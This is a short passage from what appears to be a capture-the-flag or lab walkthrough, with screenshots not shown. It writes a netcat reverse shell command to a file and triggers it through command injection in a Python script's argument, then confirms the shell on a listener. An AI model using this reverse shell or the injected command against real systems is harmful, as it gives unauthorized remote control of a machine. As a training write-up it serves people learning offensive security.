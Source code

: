 > I create a reverse shell 

```
echo "nc -e /bin/bash 10.10.17.145 1338" >> /tmp/rev.sh
```

![](./IMG/75.png)

> I tried the following step 

```
python simpler.py -p
'$(bash /tmp/rev.sh)'
```

![](./IMG/65.png)

> I checked the nc listener, it will get reverse shell.

![](./IMG/66.png)

> I also check the ip address to double confirm I get into the target machine.

![](./IMG/67.png)
